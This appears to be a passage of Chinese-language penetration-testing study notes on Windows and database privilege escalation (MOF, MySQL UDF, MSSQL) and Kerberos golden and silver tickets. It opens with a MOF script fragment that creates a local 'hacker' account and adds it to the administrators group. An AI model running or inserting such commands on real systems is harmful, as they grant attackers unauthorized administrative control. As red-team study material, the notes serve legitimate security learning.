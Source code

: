 ```vbscript
    ScriptText = 
"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user hacker P@ssw0rd /add\")\nWSH.run(\"net.exe localgroup administrators hacker /add\")"; 
}; 
 
instance of __FilterToConsumerBinding 
{ 
    Consumer   = $Consumer; 
    Filter = $EventFilter; 
};
```

（通常使用msf自带的mof模块来实现提权）

#### 2.UDF提权

UDF是mysql的一个拓展接口，UDF（Userdefined function）可翻译为用户自定义函数，这个是用来拓展Mysql的技术手段。当我们有读取和写入权限以后，我们就可以尝试使用UDF提权的方法，从数据库的root权限提升到系统的管理员权限

https://blog.csdn.net/qq_43430261/article/details/107258466

#### 3.Mssql提权

mssql提权主要分为**弱口令**与**溢出**两类提权。目前主要通过弱口令连接直接提权，溢出类Mssql数据库几乎很少见（sqlserver2000之后就几乎没有了）。

通过漏洞拉到webshell之后，找到网站配置文件，里面有sa权限的账号密码，配置文件为asp或者aspx网站一般使用微软自带数据库，这个提权没有sa权限是不能做的
mssql一般是允许远程连接的
系统库是master

## 白银票据和黄金票据

![image-20230717170328370](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230717170328370.png)

[九维团队-红队（突破）| 黄金白银票据攻击与防御 | CTF导航 (ctfiot.com)](https://www.ctfiot.com/74435.html)

[黄金票据、白银票据 - 1_Ry - 博客园 (cnblogs.com)](https://www.cnblogs.com/1-Ry/p/15418602.html)

### Kerberos认证流程

Client 与 AS 的交互,

Client 与 TGS 的交互,
Client 与 Server 的交互。

黄金票据是伪造TGT，白银票据则是伪造ST

### 黄金票据

在Kerberos认证中,Client通过AS(身份认证服务)认证后,AS会给Client一个
Logon Session Key和TGT,而Logon Session Key并不会保存在KDC中，krbtgt的NTLM Hash又是固定的,所以只要得到krbtgt的NTLM Hash，就可以伪造TGT和Logon Session Key来进入下一步Client与TGS的交互。而已有了金票后,就跳过AS验证,不用验证账户和密码,所以也不担心域管密码修改。

**所需条件:**

1、域名称
